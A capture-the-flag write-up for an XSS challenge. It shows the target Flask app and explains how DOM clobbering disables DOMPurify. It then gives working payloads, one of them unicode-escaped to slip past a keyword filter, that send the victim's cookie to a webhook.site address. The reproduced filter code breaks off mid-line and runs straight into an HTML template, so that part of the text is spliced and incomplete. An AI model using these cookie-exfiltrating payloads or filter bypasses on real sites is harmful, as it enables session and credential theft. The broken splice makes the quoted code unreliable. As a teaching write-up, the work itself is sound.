

## Super Domper Filter  



We are given a simple webapp with an XSS vuln in the `/report` endpoint, which exposes the flag in a cookie.  

```python
from flask import Flask, render_template, request, jsonify
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from time import sleep
from os import urandom
from urllib.parse import quote
from filter import xss_filter_keyword, xss_filter_tag

app = Flask(__name__)
app.secret_key = urandom(32)

try:
    FLAG = open('./flag.txt','r').read()
except:
    FLAG = 'DH{fake_flag}'

@app.route('/xss', methods=["GET"])
def xss():
    content = request.args.get('content')
    clean = xss_filter_keyword(xss_filter_tag(content))
    return jsonify({"content": clean})

@app.route('/', methods=["GET"])
def index():
    return render_template('index.html')

    

def access_page(content, cookie={"name": "name", "value": "value"}):
    try:
        service = Service(executable_path="/chromedriver-linux64/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get(f"http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(f"http://127.0.0.1:8000/?content={quote(content)}")
        sleep(1)
    except Exception as e:
        print(e, flush=True)
        driver.quit()
        return False
    driver.quit()
    return True


@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "POST":
        param = request.form.get("content")
        if not param:
            return render_template("report.html", msg="fail")
        else:
            if access_page(param, cookie={"name": "flag", "value": FLAG}):
                return render_template("report.html", msg="Success")
            else:
                return render_template("report.html", msg="fail")
    else:
        return render_template("report.html")


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

The backend implements a pretty comprehensive filter that blocks out most HTML tags and events that can be used for XSS.  

```python
def xss_filter_tag(str):
    if str == '':
        return ""
    
    str = str.lower()
    str = str.replace("&", "&amp")
    str = str.replace("%00", "null")
    str = str.replace("%", "&#37")
    str = str.replace("../", "")
    str = str.replace("..\\\\", "")
    str = str.replace("./", "")
    str = str.replace("<script", "&gtscript")
    str = str.replace("</script", "&gt/script")
    str = str.replace("<object", "&gtobject")
    str = str.replace("</object", "&gt/object")
    str = str.replace("<applet", "&gtapplet")
    str = str.replace("</applet", "&gt/applet")
    str = str.replace("<embed", "&gtembed")
    str = str.replace("</embed", "&gt/embed")
    str = str.replace("<form", "&gtform")
    str = str.replace("</form", "&gt/form")
    str = str.replace("
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="https://cdn.jsdelivr.net/npm/dompurify@3.1.6/dist/purify.min.js"></script>
    ...
<script>

        let clean = '';
        let data = '';
        
        
        const usp = new URLSearchParams(window.location.search);
        const content = decodeURIComponent(usp.get('content'));
        document.getElementById('content').innerHTML = DOMPurify.sanitize(content);
        
        window.set = window.set || {
            env: "production",
            ver: "1.1.0"
        }

        try{
            const response = fetch(`/xss?content=${content}`)
            .then(response =>{
            if (response.ok){
                return response.json();
                }
            }).then(data => {
                data = data.content;
                
                if (window.set.env !== "production"){
                    clean = data;
                }else {
                    clean = DOMPurify.sanitize(data);
                    console.log(clean)
                }
                document.getElementById('content').innerHTML = clean;
            })
            

        } catch (e) {
            console.log(`Error : ${e}`);
        }
    
</script>
</html>
```

Although the XSS preventions seem impenetrable, there is an opening in the client-side. DOMPurify is disabled if `window.set.env` is set to `production`.  

We can use DOM clobbering to modify this global attribute and completely disable DOMPurify.  

```html
<a id="set"><a name="env" value="dev"></a>
```

Now that DOMPurify has been disabled, we just need to bypass the XSS filters.  

Although most conventional tags are blacklisted, we can the `<details>` tag to visit our webhook with the flag cookie.  

```html
<details ontoggle=location.href='https://webhook.site/6785156f-3542-4773-a7c3-29ff987fdc40/'.concat(document.cookie) open>
```

We can then unicode-escape any blacklisted keywords, and our XSS payload is complete.  

```html
<details ontoggle=\u006c\u006f\u0063\u0061\u0074\u0069\u006f\u006e.\u0068\u0072\u0065\u0066='https://webhook.site/6785156f-3542-4773-a7c3-29ff987fdc40/'.concat(document.\u0063\u006f\u006f\u006b\u0069\u0065)>
```

Making a `POST` request to `/report` with our payload will then send the flag to our webhook.  

Flag: `DH{a9b424768c676dfbad230ec88e443685ae3a65265c006edb271506ba652d3003}`